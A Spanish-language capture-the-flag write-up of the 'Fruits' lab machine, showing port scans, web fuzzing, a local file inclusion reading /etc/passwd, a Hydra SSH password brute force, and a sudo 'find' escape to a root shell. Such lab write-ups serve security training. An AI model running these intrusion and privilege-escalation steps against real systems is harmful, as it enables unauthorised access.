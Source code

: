 ```yaml
---
tags:
  - Cybersecurity
  - Labs
  - TheHackerLabs
  - Easy
  - Linux
  - HTTP
  - FuzzingWeb
  - LFI
  - Hydra
  - SSH
  - PrivilegeEscalation
  - Sudo
---
```

- [[#Enumeración|Enumeración]]
	- [[#Enumeración#Ping|Ping]]
	- [[#Enumeración#Nmap|Nmap]]
	- [[#Enumeración#HTTP|HTTP]]
		- [[#HTTP#Fuzzing Web|Fuzzing Web]]
- [[#Explotación|Explotación]]
	- [[#Explotación#LFI|LFI]]
	- [[#Explotación#Hydra|Hydra]]
	- [[#Explotación#SSH|SSH]]
	- [[#Explotación#Escalada de Privilegios|Escalada de Privilegios]]
		- [[#Escalada de Privilegios#Sudo|Sudo]]

---
# Resolviendo la máquina Fruits

>En esta publicación, comparto cómo resolví la máquina **Fruits** de [TryHackMe](https://labs.thehackerslabs.com/machine/38).

---
## Enumeración
### Ping

`ping -c 1 192.168.1.34`

![[Pasted image 20250802180940.png]]

*TTL=63* -> **Linux**
### Nmap

`nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 192.168.1.34 -oG allPorts`

![[Pasted image 20250802181042.png]]

`nmap -p22,80 -sCV 192.168.1.34 -oN targeted`

![[Pasted image 20250802181107.png]]
### HTTP

`http://192.168.1.34/`

![[Pasted image 20250802181144.png]]
#### Fuzzing Web

`dirb http://192.168.1.34`

![[Pasted image 20250802181221.png]]

`wfuzz -c --hl=9 -w /usr/share/wordlists/rockyou.txt -u http://192.168.1.34/FUZZ.php`

![[Pasted image 20250802182422.png]]

Se descubre el directorio `fruits`.

---
## Explotación
### LFI

`wfuzz -c --hl=1 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt http://192.168.1.34/fruits.php?FUZZ=/etc/passwd`

![[Pasted image 20250802182730.png]]

`http://192.168.1.34/fruits.php?file=/etc/passwd`

![[Pasted image 20250802182751.png]]

Al visualizar el archivo `/etc/passwd`, se identifica el usuario `bananaman`.
### Hydra

Se realiza un ataque de fuerza bruta contra el servicio **SSH** (puerto 22), utilizando el usuario `bananaman` identificado anteriormente.

`hydra -l bananaman -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.34 -t 64`

![[Pasted image 20250802183145.png]]
### SSH

Se accede al sistema mediante el servicio **SSH**.

`ssh bananaman@192.168.1.34`

![[Pasted image 20250802183317.png]]
### Escalada de Privilegios
#### Sudo

`sudo -l`

![[Pasted image 20250802183526.png]]

Se encuentra el binario: `/usr/bin/find`, se realiza una búsqueda por [GTFOBins](https://gtfobins.github.io/gtfobins/find/#sudo).

![[Pasted image 20250802183638.png]]

`sudo find . -exec /bin/sh \; -quit`

![[Pasted image 20250802183708.png]]

---
